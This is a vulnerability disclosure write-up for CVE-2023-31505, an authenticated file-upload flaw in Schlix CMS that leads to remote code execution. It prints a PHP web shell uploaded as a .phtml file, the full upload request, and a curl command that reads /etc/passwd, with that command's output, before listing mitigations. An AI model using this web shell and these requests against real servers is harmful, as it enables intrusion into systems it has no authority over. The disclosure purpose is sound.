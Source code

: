 ```yaml
---
title: Schlix CMS v2.2.8-1 - Remote Code Execution (CVE-2023-31505)
tags: [CVE, 0day, RCE, schlix, CMS]
style: border
color: warning
description: ""
---
```


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

1. Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.

![](../assets/img/cve-2023-31505/1.png)

2. Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.

![](../assets/img/cve-2023-31505/2.png)

3. But we can see that it does not accept this type of files.

![](../assets/img/cve-2023-31505/3.png)

4. But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:

![](../assets/img/cve-2023-31505/4.png)

5. In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:

![](../assets/img/cve-2023-31505/6.png)

6. Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```

![](../assets/img/cve-2023-31505/4.png)

4. Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```
#### Result of the evidence
![](../assets/img/cve-2023-31505/7.png)

## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload